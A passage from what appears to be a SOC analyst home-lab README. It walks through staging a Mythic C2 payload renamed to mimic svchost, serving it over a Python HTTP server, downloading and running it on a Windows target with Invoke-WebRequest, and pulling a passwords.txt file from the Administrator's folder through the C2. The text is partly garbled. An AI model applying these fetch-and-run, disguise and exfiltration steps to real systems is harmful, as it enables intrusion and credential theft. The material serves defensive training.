   ```bash
  - Download
    - Copy link address

![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/Screenshot%202024-10-07%20191823.png)

- Back on Powershell
  - Use: `pwd`
  - Use: `wget paste link address --no-check-certificate`
  - Use: `ls`  
    *Now you have a new file.*
  - Change the name of the file  
    Use: `mv filename svchost-miguel.exe`  
    Use: `ls`

![image alt](https://github.com/Miguel-Manriquez-Tapia/SOC-Analyst-Project/blob/main/Screenshot%202024-10-07%20191823.png)

  - Create a directory  
    Use: `mkdir 1`  
    Use: `mv svc-miguel.exe 1/`  
    Use: `cd 1`  
    Use: `ls`
  - Firewall allow on port 9999  
    Use: `ufw allow 9999`  
    Use: `ufw allow 80`

  - Use a Python module for HTTP  
    Use: `python3 -m http.server 9999`

## Phase 5:

- Back in Kali (use Powershell, not the command prompt)  
  Use: `Invoke-WebRequest -Url http://mythic server IP address:9999/svchost-miguel.exe -OutFile “C:\Users\Public\Downloads\svchost-miguel.exe”`

  - Now let's see what's in Downloads  
    Use: `cd C:\Users\Public\Downloads`  
    Use: `dir`
  - Run svchost-miguel.exe  
    Use: `.\svchost-miguel.exe`  
    Use: `netstat`  
    *You should see svchost-mig
## Phase 6: Download the Password File

1. **Active Callback in Mythic**
    - After establishing an active callback from the target machine to the Mythic server, navigate to the active session in the Mythic Web GUI.

2. **Execute Download Command**
    - In the Mythic Web GUI, open the **Active Callback** tab.
    - In the command input field, use the following command to download the password file:
      ```bash
      download C:\Users\Administrator\Documents\passwords.txt
      ```

3. **View the Downloaded File**
    - Navigate to the **Downloads** section (represented by a paperclip icon) in the Mythic GUI.
    - You should now see the downloaded `passwords.txt` file listed there.
    - Click on the file to download it to your local machine for further analysis.

    **Screenshot** (*optional for documentation purposes*)

  ```